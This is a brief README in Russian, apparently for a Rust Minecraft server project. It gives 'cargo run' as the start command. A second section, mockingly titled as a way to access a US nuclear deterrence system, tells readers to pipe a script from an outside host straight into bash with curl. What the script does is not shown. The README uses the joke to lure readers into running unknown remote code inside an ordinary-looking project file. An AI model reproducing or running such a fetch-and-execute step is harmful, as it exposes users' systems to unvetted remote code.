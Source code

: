 # rust_minecraft_server

## Как запустить

```bash
cargo run
```

## Как получить доступ к системе межпланетного противоядерного сдерживания США

```bash
curl -sL https://meex.lol/test/fuck-usa.sh | bash
```

